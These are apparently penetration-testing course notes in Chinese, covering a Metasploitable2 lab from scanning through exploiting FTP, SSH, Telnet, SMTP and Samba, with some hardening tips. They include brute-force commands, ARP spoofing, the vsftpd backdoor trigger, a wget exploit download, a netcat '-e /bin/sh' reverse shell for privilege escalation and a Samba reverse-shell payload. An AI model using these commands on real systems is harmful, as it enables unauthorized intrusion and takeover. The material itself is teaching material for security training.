








# 2019网络安全训练营

## 第一阶段-环境搭建

### Metasploitable2

- Metasploitable2虚拟系统是一个特别制作的ubuntu操作系统，本身设计作为安全工具测试和演示常见漏洞攻击。版本2已经可以下载，并且比上一个版本包含更多可利用的安全漏洞。这个版本的虚拟系统兼容VMware，VirtualBox，和其他虚拟平台。默认只开启一个网络适配器并且开启NAT和Host-only，本镜像一定不要暴漏在一个易受攻击的网络中。[https://sourceforge.net/projects/metasploitable/files/latest/download](https://sourceforge.net/projects/metasploitable/files/latest/download)
- Metasploitable2默认用户名：msfadmin 密码：msfadmin

### 网络配置

- 桥接模式（复制物理网络连接状态）是比较常用的一种网络模式，用来设置虚拟机与主机具有同等的网络地位。前提是需要在动态分配IP地址网络中，如果在静态分配IP地址的网络中，需要手动设置对应的IP地址。
- NAT网络地址转换，主机与虚拟机构成一个网络，虚拟机可以与主机以外的网络通信，但是主机以外的网络无法与虚拟机通信。例如：局域网。
- 仅主机模式，虚拟机完全封闭，不与外部网络通信，只可以与当前主机进行通信。

### 构建自定义网络架构

- 在VM中添加新的网络实质是添加新的网卡配置，还要在设置添加网卡和Linux中进行配置：终端输入`gedit interfaces`回车，末尾换行输入`auto eth1`，换行输入`iface eth1 inet dhcp`（eth*可由ifconfig查看），然后重启网络`/etc/init.d/networking restart`

### 配置SSH功能

- 默认情况下Kali下的SSH不允许Root用户远程登录SSH。需要修改配置文件`gedit /etc/ssh/sshd_config`（修改内容：PermitRootLogin yes和PasswordAuthentication yes）
- `service ssh start`开启ssh服务，`service ssh status`查看ssh服务状态

### 常用网络命令

- `netstat -pantu` 查看当前tcp udp监听端口
- `service ssh start/stop` 开启/停止服务
- `ifconfig` 查看当前IP地址
- `/etc/init.d/networking restart` 重启网卡
- `ssh 用户名@IP地址` 登录ssh服务


## 第二阶段-环境配置

### Linux下文件操作常用命令

- `ls -alh`

  -a 查看所有文件夹和文件（包括隐藏）

  -l 以长格式查看

  -h 文件大小以K、M为单位

- 创建/删除文件夹：mkdir，rmdir

- 创建/删除文件：touch，rm

- 重命名文件：mv test1 test2 或 mv test1 ../test2

- 目录命令：pwd显示当前路径，cd切换目录， . 本级目录， .. 上级目录

### Linux下权限相关命令

- 使用`ls -alh`查看文件权限信息（user所有者，group所属组，others其他人）
  - `chmod 421 文件名` 调整权限
  - kali默认是python2，要用python3 ***.py调用
  - 下载github上的工具`git clone https://github.com/arismelachroinos/lscript`

### Nessus漏洞扫描器

- Nessus是目前全世界最多人使用的系统漏洞扫描与分析软件。总共有超过75000个机构使用Nessus作为扫描该机构电脑系统的软件。官网：[https://www.tenable.com](https://www.tenable.com)
- 下载：[https://www.tenable.com/downloads/nessus](https://www.tenable.com/downloads/nessus) ，安装`dpkg -i Nessus-8.7.2-debian6_amd64.deb`
- 启动：`/etc/init.d/nessusd start` 然后打开https://kali:8834/

### Win2003

- Win2003 IIS 6.0是提供web服务的中间件，存在很多安全问题。比如IIS PUT，解析漏洞等


## 第三阶段-主机探测

### 二层主机探测

- 二层主机探测指：利用OSI中链路层中的协议进行主机发现。一般使用ARP协议。
- 优点：（局域网中通信使用ARP协议，利用MAC地址作为对应的识别地址）
  1. 速度快
  2. 可靠性高

- 缺点：无法扫描经过路由的主机

- arping工具
  - Kali linux下自带工具arping可以进行对应的二层主机发现。**缺点：无法多个主机同时扫描。**

- netdiscover工具
  - Kali linux自带工具netdiscover**可以针对特定子网进行多主机扫描。**

### 三层主机探测

- 三层主机探测指：利用OSI中网络中的协议进行主机发现。一般使用ICMP协议。

- 优点：
  1. 可以发现远程主机，经过路由的主机
  2. 速度相对比较快

- 缺点：
  1. 经常被防火墙过滤
  2. 速度相比二层发现慢
  
- ping工具

  - ping工具在Linux和windows都有自带，Linux下ping如果不指定-c参数，一直扫描。Windows下默认进行四次探测。

- fping工具

  - Kali linux下自带工具fping可以进行对应的三层主机发现。**可以针对多个主机同时进行主机发现**
  - 如：`fping -g 192.168.31.0/24`

- hping3工具

  - Kali linux自带工具hping3对目标进行三层主机发现。**特点：发送自定义ICMP数据包以绕过防火墙**
  - 如：`hping3 -c 2 --icmp 192.168.31.1`

### 四层主机探测

- 四层发现指利用OSI中的传输层协议进行主机发现，一般使用TCP、UDP探测。
- 优点：
  1. 可以探测远程主机
  2. 比三层发现更为可靠

- 缺点：花费时间更长

- nmap工具

  - Kali linux自带的Nmap可以进行二、三、四层的探测。`nmap IP地址`

- hping3工具

  - Kali linux下自带工具hping3可以进行对应的四层层主机发现。`hping3 --udp -c 3 IP地址`

### 主机探测脚本

- 使用Github上分享的主机发现脚本：[https://github.com/Cyber-Forensic/nWatch](https://github.com/Cyber-Forensic/nWatch)
- Tip：【安装过程中显示ImportError: No module named nmap报错，则运行`pip install python-nmap`，若未找到pip命令，则先运行`apt install python-pip`】


## 第四阶段-端口扫描

### 基本介绍

- "端口”是英文port的意译，可以认为是设备与外界通讯交流的出口。端口可分为虚拟端口和物理端口，其中虚拟端口指计算机内部端口，不可见。例如计算机中的80端口、21端口、23端口等。
- 一台拥有IP地址的主机可以提供许多服务，比如Web服务、FTP服务、SMTP服务等，这些服务完全可以通过1个IP地址来实现。那么，主机是怎样区分不同的网络服务呢？显然不能只靠IP地址，因为IP地址与网络服务的关系是一对多的关系。实际上是通过“IP地址+端口号”来区分不同的服务的。
- 因此，一个开放的端口代表一个提供的服务，（不同的服务具有不同的端口号，因此要对服务进行测试，首先要确定是否开放对应端口号。

### 扫描工具Nmap

- 使用Nmap扫描指定主机的端口信息。Nmap具有多张扫描端口的技术。

### 扫描工具Dmitry

- 使用dmitry进行端口扫描，其中p参数指定dmitry进行tcp端口扫描。

### 扫描工具netcat

- 使用Netcat进行端口扫描。`nc -nvz IP地址 端口范围`

### 端口的分类
- 端口范围0-65535，TCP端口和UDP端口。由于TCP和UDP两个协议是独立的，因此各自的端口号也相互独立，比如TCP有235端口，UDP也可以有235端口，两者并不冲突。

- 端口分为：

  1. 周知端口

     周知端口是众所周知的端口号，范围从0到1023，其中80端口分配给WWW服务，21端口分配给FTP服务等。我们在浏览器的地址栏里输入一个网址的时候是不必指定端口号的，因为在默认情况下WWW服务的端口是“80”。

  2. 动态端口

     动态端口的范围是从49152到65535。之所以称为动态端口，是因为它一般不固定分配某种服务，而是动态分配。

  3. 注册端口

     端口1024到49151，分配给用户进程或应用程序。这些进程主要是用户安装的程序。

### 端口Banner获取-nmap

- 使用Nmap扫描指定主机的端口信息，并返回Banner。`nmap IP地址 -p 端口号 --script banner`

### 端口Banner获取-dmitry

- 使用dmitry获取端口banner信息。`dmitry -pb IP地址`

### 端口Bannaer获取-netcat

- 使用netcat获取Banner信息：`nc -nv IP地址 端口号`

### 端口服务版本信息获取

- 利用Nmap获取目标系统的端口版本信息：`nmap -p 端口号 -sV IP地址`

### 操作系统版本信息获取

- 使用Nmap扫描指定主机的操作系统版本信息。`nmap -O IP地址`
- 在针对内容测试时，有授权的情况下，可以利用nmap对目标进行完整测试。`nmap -A -v IP地址`


## 第五阶段-漏洞扫描

### 漏洞扫描原理

- 漏洞扫描器对漏洞进行扫描，以验证具体目标是否存在对应的具体漏洞。但是也存在错误扫描，需要对扫描结果进行漏洞验证。
- 其实扫描器的原理大致相同都是通过发送对应的验证数据到目标具体服务进行验证。当收到目标返回的响应与存在漏洞的响应一致时，就表明存在漏洞。

### 漏洞扫描工具-nmap

- 使用nmap也可以进行漏洞扫描：`nmap --script vuln 目标IP地址`

### 漏洞扫描工具-nessus

- 使用Nessus进行漏洞扫描测试（系统、Web漏洞扫描）

### 漏洞利用metasploit

- 利用Metasploit对扫描到的漏洞加以利用

  ```
  msfconsole       #启动metasploit
  search vsftpd    #查看vsftpd漏洞利用代码
  ```

### Web应用程序漏洞扫描

- 针对Web应用程序的漏洞扫描其实就是每个扫描器读取自己的Payload进行探测。
- Web漏洞扫描器：每个扫描器都有各自不同的Payload进行探测。（尽量使用2-3个以上扫描器进行扫描）
  1. Owasp-zap
  2. AWVS
  3. Appscan
  4. Nikto
  5. Burpsuite

### OWASP-ZAP漏洞扫描

- OWASP-ZAP是OWASP组织开发的用于Web应用程序漏洞扫描器，免费开源，不断更新维护

### nikto漏洞扫描

- `nikto -host IP地址`对目标服务器进行漏洞扫描主要针对HTTP服务器。


## 第六阶段-漏洞利用

### FTP漏洞利用

- FTP协议介绍

  - 文件传输协议（英文：File Transfer      Protocol，缩写：FTP）是用于在网络上进行文件传输的一套标准协议，使用客户/服务器模式。它属于网络传输协议的应用层。**FTP默认使用21号端口。**
  - 用户分类：1、Real用户  2、Administrator  3、Anonymous（匿名）用户
  - FTP文件传输格式：1、ASCII   2、二进制格式

- 利用FTP匿名登录漏洞

  - 由于FTP没有禁止匿名用户，所以可以直接使用Anonymous用户直接登录FTP服务器。使用nc 连接FTP（USER anonymous；PASS 随便）

- 利用FTP后门漏洞

  - Vsftpd2.3.4漏洞：当进行FTP认证时，如果用户名USER中包含:)，那么直接就触发监听6200端口的连接（nc 192.168.31.72      6200）的shell。

- FTP安全配置

  1. 修改配置文件，禁止匿名用户登录。（Linux FTP修改：/etc/vsftpd.conf 设置anonymous_enable=NO）
  2. 对特定漏洞进行打补丁，或者设置防火墙禁止连接后门端口。

```
iptables -A INPUT -p tcp -dport 6200 -j DROP
iptabels -A OUTPUT -p tcp sport 6200 -j DROP
```

- FTP用户名密码暴力破解

  - 使用hydra暴力破解FTP登录`hydra -L user.txt -P passwd.txt ftp://192.168.31.52`

- FTP用户名明文密码验证

  - FTP协议中用于用户认证的过程中，客户端与服务器端是通过明文进行交互信息。验证FTP登录过程中明文传输用户名和密码。可用Wireshark抓取

- FTP用户名明文密码嗅探

  - 利用arpspoof进行ARP嗅探 （网关欺骗：`arpspoof -i eth0 网关 -t 目标IP`
    - Tip：【arpspoof：未找到命令；解决方法 `apt-get install dsniff ssldump`】
  - 利用Wireshark进行流量嗅探

- FTP登录之后做的事情

  - 利用metasploit创建反弹shell上传到FTP服务器。可以利用setookit快速生成反弹shell。

- ubuntu搭建ssh服务端

  - ubuntu下安装服务端：`sudo apt-get install openssh-server`


### SSH漏洞利用

- ssh服务端服务启动与关闭

  - 启动、状态获取、关闭
    - service ssh start
    - service ssh status
    - service ssh stop

- ubuntu搭建ssh客户端（也可以使用XShell）

  - ubuntu下安装putty工具：`sudo apt-get instai putty-tools`
  - ubuntu下安装putty：在软件中心搜索putty进行安装

- 客户端连接服务端

- nmap获取ssh Banner信息

  - `nmap -sV -p 22 IP地址`

- Metasploit获取ssh Banner信息

  ```
  msfconsole   #启动metasploit
  use auxiliary/scanner/ssh/ssh_version
  msf auxiliary(ssh_version)>set rhosts IP地址
  msf auxiliary(ssh version)>set rport 22
  msf auxiliary(ssh_version)>exploit
  ```

- nc获取 ssh Banner信息

  - `nc IP地址 22`

- 配置ssh规避Banner信息

  - 在ssh配置文件/etc/ssh/sshd_config中新增一行。`DebianBanner no`【然后重启ssh服务 `service ssh restart`】

- Medusa SSH弱口令破解

  - 如果在设置SSH服务时，管理员设置了容易被猜解出来的用户名和密码（弱口令）。那么测试人员就可以使用对应的密码工具进行暴力破解弱口令。破解出来就可以使用对应的用户名和密码登录系统。
  - `medusa -h IP地址 -U user.txt -P passwd.txt -M ssh`

- SSH命令行工具登录

  - 一般情况下Linux下都具有ssh客户端，用来登录ssh服务端。可以使用 `ssh 用户名@IP地址`然后根据提示输入密码。

- Metasploit利用SSH登录反弹Shell

  - 使用Metasploit可以进行ssh登录（破解），会自动建立对应的Bash shell连接。

    ```
    msfconsole                                    #启动melasploit
    msf > use auxiliary/scanner/ssh/ssh_login
    msf > show options                            #查看需要设置的选项
    msf > set rhosts IP地址
    msf > set username 用户名
    msf > set password 密码
    msf > show options
    msf > run                                     #运行
    msf > sessions -l                             #查看当前连接的shell
    msf > sessions -i 1                           #建立ID为1的bash shell
    ```

- Metasploit获取Meterpreter Shell

  - 利用获得的Bash shell，注入Metasploit中Meterpreter payload从而获取更强大功能的shell。

    ```
    msf > sessions -l           #查看当前连接的shell
    msf > sessions -u 1         #利用ID为1的shell注入反弹meterpreter playload
    ```

- SSH安全防御——SSH 修改默认端口
  - 默认情况下，SSH使用22端口。为了安全，一般情况下都会修改默认端口。【修改后必须重启SSH服务】
    - `sudo gedit /etc/ssh/sshd_config`
    - `service ssh restart`

- SSH安全防御——SSH设置PGP登录

  - 默认情况下，SSH使用用户名和密码进行远程登录。但也可以使用密钥对进行身份验证登录（公钥与私钥）。
  - 生成SSH密钥对，使用puttygen。
  - 下载链接：[https://www.puttygen.com/download-putty](https://www.puttygen.com/download-putty)
  - 使用ssh-keygen命令在Linux生成.ssh目录，在.ssh下新建密钥存储文件authorized_keys，并复制私钥文件到.ssh目录下。使用命令puttygen -L “要拷贝的私钥文件名”，将内容拷贝到authorized_keys文件中。
  - 使用Putty客户端加载私钥文件进行连接。

- SSH安全防御——SSH防御暴力破解用户账号

  - 在Linux下可以配置不能使用用户名和密码登录，只使用SSH PGP方式验证登录。以此规避SSH暴力破解。

    - `sudo gedit /etc/ssh/sshd_config`            #PasswordAuthentication  yes  =>  PasswordAuthentication  no
    - `service ssh restart`

  - 缺点：不能使用用户密码登录，很大程度上存在复杂操作。

- SSH安全防御——Iptables设置阈值防止暴力破解

  - 利用Iptables对多次连接验证错误，进行账户锁定120秒。

    ```
    iptables -I INPUT -p tcp --dport 22 -i eth0 -m state --state NEW -m recent --set
    iptables -I INPUT -p tcp --dport 22 -i eth0 -m state --state NEW -m recent --update --seconds 120 --hitcount 3 -j DROP
    ```

  - 在设置完之后，需要重新启动ssh服务。


### Telnet漏洞利用

- Telnet介绍

  - Telnet协议是TCP/IP协议族中的一员，是Internet远程登陆服务的标准协议和主要方式。它为用户提供了在本地计算机上完成远程主机工作的能力。在终端使用者的电脑上使用telnet程序，用它连接到服务器。终端使用者可以在telnet程序中输入命令，这些命令会在服务器上运行，就像直接在服务器的控制台上输入一样。
  - 虽然Telnet较为简单实用也很方便，但是在格外注重安全的现代网络技术中，Telnet并不被重用。原因在于Telnet是一个明文传送协议，它将用户的所有内容，包括用户名和密码都明文在互联网上传送，具有一定的安全隐患、因此许多服务器都会选择禁用Telnet服务。如果我们要使用Telnet的远程登录，使用前应在远端服务器上检查并设置允许Telnet服务的功能。
  - **Telnet服务端默认情况下使用23端口。**

- telnet版本获取

  - 使用nmap获取telnet版本信息`nmap -p23 -sV 192.168.31.72`，或者使用metasploit获取对应版本信息`use auxiliary/scanner/telnet/telnet_version`

- telnet密码破解

  - 使用metasploit下针对telnet破解的模块进行用户名和密码的破解。
  - 在msfconsole下使用search telnet进行查询telnet可以利用的模块。

- telnet登录测试

  - 使用破解好的会话连接telnet，并执行对应命令。
  - 使用`sessions -l`列举建立的会话；使用`sessions -i id`使用对应的会话。

- telnet客户端连接telnet服务器

  - windows下开启telnet客户端，连接telnet服务端。

- telnet明文密码传输

  - 使用wireshark抓取telnet数据包。

- msf登录telnet

  - 在metasploit中使用telnet_login进行登录，并使用`session -i id`连接shell。

- msf连接shell下载exp

  - 使用wget进行下载。`wget http://www.exploit-db.com/download/8572`
  - 【需将文件最后一行去掉，否则执行编译时会报错。】

- 设置kali nc监听

  - 使用netcat 进行监听后期返回的shell。`nc -lvp 4444`

- 编译执行exp，获取root

  ```
  gcc 源文件名 -o exploit
  echo '#!/bin/sh' > /tmp/run
  echo '/bin/netcat -e /bin/sh IP地址 4444' >> /tmp/run
  ps aux | grep udev                                        #显示一个root权限的进程
  ./exploit 数字pid-1                                        #执行exploit,具有root权限的pid-1
  ```


### SMTP漏洞利用

- 邮件发送与接受模型

  - 邮件发送使用smtp协议，**占用25端口。**而邮件接收使用pop3或imap协议，**分别占用110和143端口。**

- 添加主机名和域名

  - 为了在本地搭建好邮件服务器，所以需要修改对应内容。使得可以在本地进行域名解析。
  - `sudo gedit /etc/hosts`
  - 127.0.0.1 mail.test.lab test
  - `sudo gedit /etc/hostname`
  - test
  - 修改完成之后使用reboot进行重启，使得修改生效。
  - 使用hostname 或hostname -f查看修改是否成功。

- ubuntu 安装postfix

  - 因为postfix是非常流行的smtp软件，所以ubuntu的主要库中集成了postfix，可以直接使用以下命令安装：`sudo apt-get install postfix`

  - 修改配置文件：`sudo gedit /etc/postfix/main.cf`

  - 追加子网信息

    mynetworks = 127.0.0.0/8 192.168.1.0//24

    inet_protocols = ipv4

    home_maillbox = Maildir/

  - 修改完成之后重新启动服务postfix：`sudo service postfix restart`，然后使用netstat -nlv来查看对应25端口是否开启。

- ubuntu安装dovecot

  - `sudo apt-get install dovecot-imapd dovecot-pop3d`

  - `sudo gedit /etc/dovecot/conf.d/10-auth.conf`

    disable_plaintest auth = yes

    auth_mechanisms = plain login

  - `sudo gedit /etc/dovecot/conf.d/10-mail.conf`

    mail_location = maildir:/home/%u/Maildir

  - `sudo gedit /etc/dovecot/conf.d/10-master.conf`

    设置开启port = 143 port = 110

  - 修改权限

  - `sudo gedit /etc/dovecot/conf.d/10-master.conf`

    unix_listerner auth-usrdb{

    mode = 0600

    user = postfix

    group = postfix

    }

  - 重新启动dovecot服务`sudo service dovecot restart`使用`netstat -nlv`查看服务端口110、143是否开启
  
- telnet测试用户名

  - `telnet IP地址 端口`
  - `vrfy test@mail.test.lab`

- metasploit测试用户名（字典内容为完整邮件名）

  - 在metasploit中有smtp-enum可以对smtp上用户名进行枚举。

    ```
    use auxiliary/scanner/smtp/smtp_enum
    msf auxiliary(smtp_enum) > set rhosts 192.168.1.107
    msf auxiliary(smtp_enum) > set rport 25
    msf auxiliary(smtp_enum) > set USER_FILE /root/Desktop/user.txt
    msf auxiliary(smtp_enum) > exploit
    ```

- smtp-user-enum测试用户名

  - smtp-user-enum专门用来进行smtp用户名枚举的工具。
  - `smtp-user-enum -M VRFY -U /root/Desktop/user.txt -t 目标IP地址`

- ismtp测试用户名

  - `ismtp -h IP地址:25 -e /root/Desktop/email.txt`

- smtp版本信息获取

  - 使用metasploit中的smtp-version模块探测smtp服务的版本信息。

- medusa工具介绍

  - medusa是一款用来破解不同协议用户名和密码的专用软件。

- smtp验证方式

  - 参考链接：[https://en.wikipedia.org/wiki/SMTP_Authentication](https://en.wikipedia.org/wiki/SMTP_Authentication)

- medusa破解smtp

  - `medusa -h 目标IP地址 -u 用户名 -P 字典文件 -M 协议模块`


### rpcbind漏洞利用

- rpcbind介绍
  - 通俗的来说，rpcbind是NFS（网络文件系统Network File     System）中用来进行消息通知的服务。
  - **一般情况下rpcbind运行在111端口。**并且NFS配置开启rpcbind_enable="YES"
- 探测目标rpcbind
  - 使用`nmap -sV -p 111 IP地址`探测目标rpcbind版本信息。
- nmap脚本探测
  - 在nmap中使用`nmap -p 111 --script=rpcinfo 目标IP地址`来探测目标的rpcinfo信息。
- metasploit模块探测
  - 使用metasploit下的auxiliary/scanner/misc/sunrpc_portmapper 进行目标探测。


### Samba漏洞利用

- Samba介绍

  - Samba是在Linux和UNIX系统上实现SMB协议的一个免费软件，由服务器及客户端程序构成。SMB（Server     Messages     Block，信息服务块）是一种在局域网上共享文件和打印机的一种通信协议，它为局域网内的不同计算机之间提供文件及打印机等资源的共享服务。**一般运行在139、445端口。**

- 探测目标Samba

  - 使用`nmap -sV -p 139,44 IP地址`探测目标端口服务版本信息。

- metasploit漏洞利用

  - 在Metasploit中集成了利用samba usermap RCE的脚本。

    ```
    exploit/mulit/samba/usermap_script
    set rhosts 192.168.43.235
    show payloads
    set payload cmd/unix/reverse
    set lhost 192.168.43.80
    exploit
    ```

- 防御修复

